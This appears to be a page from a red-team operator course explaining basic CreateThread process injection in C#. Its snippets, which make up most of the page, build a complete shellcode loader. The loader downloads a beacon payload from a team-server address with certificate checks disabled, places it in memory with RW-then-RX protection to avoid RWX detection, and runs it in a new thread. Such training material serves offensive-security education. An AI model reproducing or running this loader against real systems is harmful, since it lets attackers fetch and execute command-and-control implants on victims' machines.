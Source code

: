 The CreateThread API can be used to create a new thread within the calling process, so we'll be injecting the shellcode into the injector itself.  This is amongst the easiest and most basic type of injection.

1.  Download the shellcode from the Team Server using the **HttpClient** class.  This is disposable, so wrap it in a using statement or call the `Dispose()` method.  We also have to use the **ServerCertificateCustomValidationCallback** to ignore the self-signed SSL error.

```csharp
static async Task Main(string[] args)
{
    byte[] shellcode;

    using (var handler = new HttpClientHandler())
    {
        // ignore ssl, because self-signed
        handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

        using (var client = new HttpClient(handler))
        {
            // Download the shellcode
            shellcode = await client.GetByteArrayAsync("https://10.10.0.69/beacon.bin");
        }
    }
}
```

  

2.  Use **VirtualAlloc** to allocate a new region of memory within this process.  The region has to be large enough to accommodate the shellcode, so we can just use the shellcode's length as a parameter.  The API will typically round up, which is fine.  We also allocate the region with RW permission so we can avoid RWX.

```csharp
// Allocate a region of memory in this process as RW
var baseAddress = Win32.VirtualAlloc(
    IntPtr.Zero,
    (uint)shellcode.Length,
    Win32.AllocationType.Commit | Win32.AllocationType.Reserve,
    Win32.MemoryProtection.ReadWrite);
```

  

3.  Now we can copy the shellcode into this region.  Because it's our own process, we can use **Marshal.Copy** instead of the WriteProcessMemory API (saves a bit of time).

```csharp
// Copy the shellcode into the memory region
Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);
```

  

4. Before we can execute the shellcode, we have to flip the memory protection of this region from RW to RX.  **VirtualProtect** takes in the new memory protection and pops out whatever the current protection is.  This is useful to have if you were to flip it back again, but since we're not, just dispose of it with `_`.

```csharp
// Change memory region to RX
Win32.VirtualProtect(
    baseAddress,
    (uint)shellcode.Length,
    Win32.MemoryProtection.ExecuteRead,
    out _);
```

  

5.  Now we can call **CreateThread** to execute this shellcode.

```csharp
// Execute shellcode
var hThread = Win32.CreateThread(
    IntPtr.Zero,
    0,
    baseAddress,
    IntPtr.Zero,
    0,
    out _);
```

  

6.  CreateThread is not a blocking call, so to prevent the process from exiting we can wait on this thread.  **WaitForSingleObject** will block for as long as the thread is running.

```csharp
// Wait infinitely on this thread to stop the process exiting
Win32.WaitForSingleObject(hThread, 0xFFFFFFFF);
```

  
You should now have a beacon running inside the injector.


![](https://rto2-assets.s3.eu-west-2.amazonaws.com/process-injection/createthread/beacon.png)